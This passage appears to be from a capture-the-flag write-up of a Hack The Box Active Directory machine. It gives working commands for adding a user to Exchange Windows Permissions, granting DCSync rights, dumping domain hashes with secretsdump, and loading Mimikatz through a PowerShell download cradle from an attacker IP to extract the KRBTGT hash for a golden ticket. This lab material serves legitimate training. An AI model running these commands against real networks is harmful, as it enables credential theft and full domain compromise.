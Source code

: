 4.  Verify "svc-alfresco" is now part of the group\*:
    -   `net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U $domain/$user%$pass -S $box`
    -   {{< figure src="/ox-hugo/2024-11-15-113225_.png" >}}

5.  Grant "svc-alfresco" DCSync privileges:
    -   `impacket-dacledit -action 'write' -rights 'DCSync' -principal $user -target-dn 'DC=HTB,DC=LOCAL' $domain/$user:$pass`
    -   {{< figure src="/ox-hugo/2024-11-15-113525_.png" >}}
    -   It does not work due to insufficient rights, which I know to be incorrect as we have granted them.

6.  I check our group membership &amp; can see we have been removed from the group "Exchange Windows Permissions":
    -   `net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U $domain/$user%$pass -S $box`
    -   {{< figure src="/ox-hugo/2024-11-15-113636_.png" >}}
    -   I suspect this will be due to a scheduled task that will run and ensure that the only user in the group is "Exchange Trusted Subsystem". Luckily we have seen ourselves in the group so in theory all we have to do is re-add ourselves, grant ourselves DCSync privileges and then perform a DCSync attack in quick succession.

7.  We will run the below 2 commands, in quick succession to perform the final part of the attack:
    -   `net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" $user -U $domain/$user%$pass -S $box`
    -   `impacket-dacledit -action 'write' -rights 'DCSync' -principal $user -target-dn 'DC=HTB,DC=LOCAL' $domain/$user:$pass`
        -   {{< figure src="/ox-hugo/2024-11-14-141550_.png" >}}

8.  We can then quickly dump the NDST.dit database by using impacket-secrets dump:
    -   `impacket-secretsdump $domain/$user:$pass@$machine.$domain`
    -   {{< figure src="/ox-hugo/2024-11-14-141635_.png" >}}


## 4. Persistence: {#4-dot-persistence}


### Creating a Kerberos Golden Ticket: {#creating-a-kerberos-golden-ticket}

We already have the KRBTGT hash via secretsdump however I wanted to show an alternate option with using invoke-mimikatz in a download cradle for a targeted extraction of just the KRBTGT aes hash.

1.  Login as the user we have added:
    -   `evil-winrm -i $box -u $user -p $newPass`
    -   {{< figure src="/ox-hugo/2024-11-14-142738_.png" >}}
    -   We can login as our new user or with admin, as long as we have administrator rights.

2.  Load mimikatz into memory via download cradle:
    -   `iex(new-object net.webclient).downloadstring('http://10.10.14.99:9000/Invoke-Mimikatz.ps1')`
    -   {{< figure src="/ox-hugo/2024-11-14-151518_.png" >}}

3.  Perform a targeted DCSync attack to extract the KRBTGT hash.
    -   `Invoke-Mimikatz -Command '"privilege::debug" "lsadump::dcsync /user:krbtgt /domain:htb.local"'`
    -   {{< figure src="/ox-hugo/2024-11-14-151604_.png" >}}
    -   {{< figure src="/ox-hugo/2024-11-14-151714_.png" >}}
    -   It spits out errors but we still manage to get the hashes.
